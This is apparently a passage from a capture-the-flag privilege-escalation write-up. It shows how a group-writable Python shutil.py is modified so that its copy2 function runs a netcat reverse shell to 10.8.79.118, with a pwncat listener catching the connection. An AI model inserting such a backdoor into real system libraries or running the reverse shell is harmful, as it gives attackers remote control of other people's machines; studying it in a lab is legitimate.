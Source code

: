 ```python
print(shutil.__file__)
```
output:
```bash
/usr/lib/python3.8/shutil.py
```
we have our file, now we need to check if we have write permissions:
```bash
ls -la /usr/lib/python3.8/shutil.py
```
output:
```bash
-rw-rw-r-- 1 root death 51474 Aug  7 23:52 /usr/lib/python3.8/shutil.py
```
We are inside the death group so that means we can write the file.<br>
In fact we just need to change the content of the `copy2` function from this:
```python
def copy2(src, dst, *, follow_symlinks=True):
    """Copy data and metadata. Return the file's destination.

    Metadata is copied with copystat(). Please see the copystat function
    for more information.

    The destination may be a directory.

    If follow_symlinks is false, symlinks won't be followed. This
    resembles GNU's "cp -P src dst".
    """
    if os.path.isdir(dst):
        dst = os.path.join(dst, os.path.basename(src))
    copyfile(src, dst, follow_symlinks=follow_symlinks)
    copystat(src, dst, follow_symlinks=follow_symlinks)
    return dst
```
to this:
```python
def copy2(src, dst, *, follow_symlinks=True):
    """Copy data and metadata. Return the file's destination.

    Metadata is copied with copystat(). Please see the copystat function
    for more information.

    The destination may be a directory.

    If follow_symlinks is false, symlinks won't be followed. This
    resembles GNU's "cp -P src dst".
    """
    os.system('busybox nc 10.8.79.118 6666 -e /bin/bash')
    if os.path.isdir(dst):
        dst = os.path.join(dst, os.path.basename(src))
    copyfile(src, dst, follow_symlinks=follow_symlinks)
    copystat(src, dst, follow_symlinks=follow_symlinks)
    return dst
```
Now we just need to start another listener on our local machine and wait:
```bash
pwncat-cs -lp 6666
```
	